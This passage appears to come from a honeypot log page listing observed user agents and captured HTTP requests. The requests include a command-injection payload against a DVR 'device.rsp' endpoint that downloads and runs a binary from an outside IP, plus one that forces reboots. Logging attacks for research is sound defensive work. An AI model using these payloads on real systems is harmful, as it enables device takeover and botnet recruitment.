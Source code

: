 | 222 |                     1 | Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; chromeframe/30.0.1599.69; GTB7.5; .NET CLR 1.1.4322; .NET CLR 3.0.04506.30; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; WinNT-EVI 12.01.2010; MS-RTC LM 8; .NET CLR 2.0.50727; lib/5.0\x5C0195; Engine/4.00195; 89670803)                                      |
| 223 |                     1 | Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.125 Safari/537.36                                                                                                                                                                                                                  |
| 224 |                     1 | Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2243.2 Safari/537.36 OPR/28.0.1738.0 (Edition developer)                                                                                                                                                                                    |
| 225 |                     1 | Mozilla/5.0 (iPhone; CPU iPhone OS 10_2_1 like Mac OS X) AppleWebKit/602.4.6 (KHTML, like Gecko) Version/10.0 Mobile/14D23 Safari/602.1                                                                                                                                                                                        |
| 226 |                     1 | Mozilla/5.0 (X11; U; Linux i686; zh-TW; rv:1.9.0.13) Gecko/2009080315 Ubuntu/9.04 (jaunty) Firefox/3.0.13                                                                                                                                                                                                                      |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                   110 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F156.253.230.23%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|   1 |                    11 | GET /login.rsp HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|   2 |                     8 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=busybox%20reboot%3Breboot%3Bkill%201 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
